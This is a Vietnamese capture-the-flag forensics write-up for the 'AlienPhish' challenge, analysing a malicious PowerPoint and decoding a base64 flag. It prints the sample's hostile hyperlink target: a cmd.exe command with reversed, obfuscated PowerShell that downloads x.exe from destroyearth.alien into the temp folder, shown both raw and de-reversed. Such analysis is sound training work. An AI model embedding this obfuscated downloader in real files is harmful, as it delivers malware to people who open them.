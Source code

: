# AlienPhish

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

{% file src="../../.gitbook/assets/forensics_alienphish.zip" %}

* Tiếp tục với Phân tích tài liệu độc, lần này là một file PowerPoint
*

    <figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~/Desktop/HTB/AlienPhise]
└─$ unzip Alien\ Weaknesses.pptx 
Archive:  Alien Weaknesses.pptx
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: ppt/slides/_rels/slide1.xml.rels  
  inflating: ppt/_rels/presentation.xml.rels  
  inflating: ppt/presentation.xml    
  inflating: ppt/slides/slide1.xml   
  inflating: ppt/slideLayouts/_rels/slideLayout5.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout8.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout10.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout11.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout9.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout6.xml.rels  
  inflating: ppt/slideMasters/_rels/slideMaster1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout2.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout3.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout7.xml.rels  
  inflating: ppt/slideLayouts/slideLayout11.xml  
  inflating: ppt/slideLayouts/slideLayout10.xml  
  inflating: ppt/slideLayouts/slideLayout3.xml  
  inflating: ppt/slideLayouts/slideLayout2.xml  
  inflating: ppt/slideLayouts/slideLayout1.xml  
  inflating: ppt/slideMasters/slideMaster1.xml  
  inflating: ppt/slideLayouts/slideLayout4.xml  
  inflating: ppt/slideLayouts/slideLayout5.xml  
  inflating: ppt/slideLayouts/slideLayout6.xml  
  inflating: ppt/slideLayouts/slideLayout7.xml  
  inflating: ppt/slideLayouts/slideLayout8.xml  
  inflating: ppt/slideLayouts/slideLayout9.xml  
  inflating: ppt/slideLayouts/_rels/slideLayout4.xml.rels  
  inflating: ppt/theme/theme1.xml    
 extracting: ppt/media/image1.png    
 extracting: ppt/media/image2.png    
 extracting: docProps/thumbnail.jpeg  
  inflating: ppt/presProps.xml       
  inflating: ppt/tableStyles.xml     
  inflating: ppt/viewProps.xml       
  inflating: docProps/app.xml        
  inflating: docProps/core.xml 
```

* Sau khi mình check tất cả các file thì nhận thấy file `slide1_xml.rels` chứa một chuỗi đáng ngờ

```
┌──(kali㉿kali)-[~/…/AlienPhise/ppt/slides/_rels]
└─$ strings slide1.xml.rels 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image1.png"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image2.png"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

* Nhìn vào các Target ta sẽ thấy ngay đoạn bất thường

```
Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

* Nếu để ý thì sẽ thấy một số string bị đảo ngược

```
neila -> alien
htraeyortsed -> destroyearth
ptth -> http
```

* Reverse đoạn Target này lại

```
22%52%=!XCk*:XCk52%02%llac02%002%qel02%X52%02%fi;pma&;pma&!1,X52%~:My!!XCk!=XCk02%tes02%od)0;1-;221(02%ni02%X52%02%L/02%rof;pma&;pma&powershell02%-c02%22%$o02%=02%$env:temp02%+02%'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe';02%iwr02%http:/destroyearth.alien/x.exe02%-outfile02%$o22%=My02%tes22%C/NO:V/02%exe.dmc"=tegraT
```

* Ta có một đoạn  base64 `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM`

```
>>> import base64
>>> flag = "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM="
>>> base64.b64decode(flag)
b'CHTB{pH1sHiNg_w0_m4cr0s'
```

Ta có flag cần tìm

\
